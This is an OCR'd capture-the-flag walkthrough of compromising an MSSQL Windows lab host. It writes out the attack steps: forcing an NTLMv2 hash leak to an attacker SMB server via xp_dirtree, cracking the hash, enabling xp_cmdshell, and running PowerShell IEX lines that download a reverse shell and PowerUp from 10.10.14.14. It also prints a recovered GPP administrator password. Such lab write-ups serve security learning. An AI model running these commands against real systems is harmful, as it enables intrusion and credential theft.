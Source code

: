 after connecting into sql with sqsh we push our smbserver and get htlmv2 hash mssql-svc
in attacking host:
sudo impacket-smbserver share ./ -smb2support
in target host:
1> EXEC master..xp_dirtree '\\10.10.14.14\share\'
2> go

mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:ca2e1dc793dc91c593a8672f7f56b6b3:01010000000000000001d58e8178db01bdd6dfd82877d3bc00000000010010006c005200700056004500780051004e00030010006c005200700056004500780051004e00020010006400620062006300730049007a004200040010006400620062006300730049007a004200070008000001d58e8178db01060004000200000008003000300000000000000000000000003000009e30712d452f598a920114b05c9e881eff5ab5d56797431b46d9d18f6910987c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000

we cracked this hash: corporate568

after login in msssql-svc account we get access to xp_cmdsheel
1> EXECUTE sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to
install.
1> RECONFIGURE
2> go
1> EXECUTE sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> RECONFIGURE
2> go
1> xp_cmdshell "whoami /all"
2> go
upload powerup
1> xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')"
2> go
we also add PowerUp 
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/PowerUp.ps1')

use this command:
Invoke-AllChecks

and found this credentials:
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files

we can get access with psexec 